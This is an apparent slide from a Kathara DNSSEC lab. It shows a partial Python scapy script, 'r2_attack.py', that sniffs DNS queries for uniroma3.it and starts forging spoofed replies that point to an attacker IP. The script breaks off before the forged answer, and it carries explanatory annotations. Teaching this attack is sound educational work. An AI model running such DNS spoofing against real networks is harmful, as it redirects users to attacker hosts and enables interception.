

# Python code for DNS response spoofing and forwarding
/r2/r2_attack.py

from scapy.all import DNSQR , DNS , IP , UDP , DNSRR , send ,sniff , Ether , sendp
EVIL_IP = "210.0.3.50"
DNS_UNI_IP = "110.0.0.10"
INTERFACE = "eth0"
TARGET_DOMAIN = "uniroma3.it"
def dns_spoof(pkt):
    if pkt.haslayer(DNSQR) and pkt[DNS].qr == 0 and pkt[IP].dst == DNS_UNI_IP:
        qname = pkt[DNSQR].qname.decode()
        if TARGET_DOMAIN in qname:
            ether_layer = Ether(dst=pkt[Ether].src, src=pkt[Ether].dst)
            ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)
            udp_layer = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
            dns_layer = DNS(
                id=pkt[DNS].id,
Creates the UDP header. Reverses ports: if the query arrived on port 53, the response will start from 53.
Copia l'ID della query originale
kathara – [ lab: dnssec ]
last update: Feb 2026